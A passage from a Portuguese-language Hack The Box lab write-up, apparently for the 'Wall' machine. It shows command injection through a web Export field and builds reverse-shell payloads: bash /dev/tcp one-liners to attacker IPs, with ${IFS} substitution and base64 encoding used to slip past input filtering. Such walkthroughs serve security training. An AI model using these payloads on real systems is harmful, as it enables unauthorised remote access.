 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-wall/W_e11.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-wall/W_e12.png)

Quando clicamos em Export, no tcpdump iremos receber o Ping

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-wall/W_e13.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-wall/W_e14.png)

Temos RCE!

## Pegando uma reverse shell (1º Vez deu errado)

O próximo passo agora é conseguir uma reverse shell da aplicação

Pô, tu ja viu como é o esquema, não vou fazer inteiro, só vou mostrar o que deve ser colocado no campo pra poder ser executado

`echo "bash -c 'bash -i /dev/tcp/10.10.14.21/1234'"|sed 's/ /${IFS}/g';`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-wall/W_e16.png)

Alteramos no site (lembrar de colocar o ; no final)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-wall/W_e15.png)

Fizemos todo o processo, agora é clicar em Export e ganhar o shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-wall/W_e17.png)

Puuts, não deu certo... porque será? Eu suspeito que seja pq tem muito ${IFS} então se encodarmos em base64 vai ser mais produtivo

## Pegando um shell (agora deu certo)

`echo "bash -c 'bash -i >& /dev/tcp/10.10.16.92/443 0>&1'" | base64 -w0 && echo`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-wall/W_e18.png)

Agora arrumar pra ele executar

`echo "echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi45Mi80NDMgMD4mMScK | base64 -d | bash" | sed 's/ /${IFS}/g'`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-wall/W_e19.png)

Colcocamos na aplicação (lembrar do ; no final)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-wall/W_e20.png)

Executamos e ganhamos uma shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-wall/W_e21.png)

